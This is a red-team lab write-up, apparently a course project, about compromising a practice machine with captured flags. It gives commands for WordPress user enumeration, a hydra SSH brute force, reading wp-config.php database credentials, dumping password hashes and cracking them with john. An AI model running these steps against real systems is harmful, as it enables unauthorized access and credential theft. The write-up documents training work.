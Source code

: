 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services 
- Critical Vulnerabilities 
- Exploitation

# Exposed Services

### Nmap scan results for each machine reveal the below services and OS details:

![01_nmap](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/01_nmap.png)

### This scan identifies the services below as potential points of entry:

  ```
    22/tcp SSH OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    80/tcp http Apache httpd 2.4.10 ((Debian))
    111/tcp rpcbind 2-4 (RPC #100000)
    139/tcp netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp microsoft-ds Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
  ```

### Based on ths scan, the following vulnerabilities can be exploited on this system:

- [CVE-2021-28041 Open SSH](https://www.cve.org/CVERecord?id=CVE-2021-28041)
- [CVE-2017-15710 Apache https 2.4.10](https://www.cve.org/CVERecord?id=CVE-2017-15710)
- [CVE-2017-8779 rcpbind open port](https://www.cve.org/CVERecord?id=CVE-2017-8779)
- [CVE-2017-7494 Samba NetBIOS](https://www.cve.org/CVERecord?id=CVE-2017-7494)


# Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Enumerating WordPress site with `wpscan` security tool to obtain usernames Michael and Steven.
- Command used: `wpscan --url http://192.168.1.110/wordpress -eu` 
- Users found:

![02_wpusers](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/02_users.png)


### EXPLOIT:

- Cracking Michael's credentials with `hydra -l michael -P /usr/share/wordlist/rockyou.txt -s 22 <IP> ssh` or by guessing the password being the same as his name...

![03_ssh](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/03_ssh.png)

- `SSH` into Michael's account with `ssh michael@192.168.1.110`
- Searching for the `flag1` by using: `find . | xargs grep "flag1" *` or `grep -RE "flag1" html` 

![04_flag1](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/04_flag1.png)

![05_flag1](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/05_flag1.png)

- Searching for `flag2` in the `/var/www` directory and finding it easily:

![06_flag2](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/06_flag2.png)

### EXPLOIT: 

- Finding the `MySQL` database credentials by printing the contents of `/var/www/html/wordpress/wp-config.php`. We can see that the username is `root` and the password is `R@v3nSecurity`:

![07_db1](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/07_db1.png)

- Using the credentials to login to MySQL with `mysql -u root -p` and searching for the user password hashes with the following sequence of commands:

View all databases: `show databases;` 

Use Wordpress DB: `use wordpress;`

Show Tables of Wordpress DB: `show tables;`

View all users table objects: `select * from wp_users`

![08_dbusers](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/08_dbusers.png)

- Finding `flag3` and `flag4` by exploring the rest of the database tables. We run `select * from wp_posts` to find:

![09_flag3](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/09_flag3.png)

![10_flag4](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/10_flag4.png)

### EXPLOIT: 

- Using `john` to crack the password hashes for Steve's credentials: `john -wordlist:/usr/share/wordlists/rockyou.txt hash.txt` to find his password: pink84

![11_john](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/11_john.png)

- Now we can `SSH` into Steven's account with: `ssh steven@192.168.1.110` and escalate privileges for root access:

![12_root](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/12_root.png)

![13_root](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/13_root.png)
